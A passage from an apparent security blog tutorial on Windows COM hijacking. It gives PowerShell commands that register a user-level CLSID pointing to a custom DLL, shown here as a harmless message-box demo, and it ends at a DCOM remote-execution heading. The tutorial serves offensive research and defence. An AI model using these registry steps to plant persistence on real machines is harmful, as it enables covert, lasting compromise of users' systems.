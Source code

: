 Also you better choose one CLSID that is not accessed to often, otherwise your payload will execute to many times...

For this example I created a simple DLL that when loaded into a process memory creates a message box with some text.

![dll](/assets/images/windows_com/dll.png)

Now all you need to do is to target a CLSID and define it in the registry. The following PowerShell commands registers the targeted COM object inside the HKCU:

```
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{660b90c8-73a9-4b58-8cae-355b7f55341b}"

New-Item -Path "HKCU:Software\Classes\CLSID\{660b90c8-73a9-4b58-8cae-355b7f55341b}" -Name "InprocServer32" -Value "C:\Users\IEUser\Desktop\comhijack.dll"

New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{660b90c8-73a9-4b58-8cae-355b7f55341b}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

After some random time, the following message box appears:

![hijack](/assets/images/windows_com/hijack.png)

This means that the previously inexistent COM object was successfully hijacked with my custom DLL.

# DCOM - Remote Code Execution
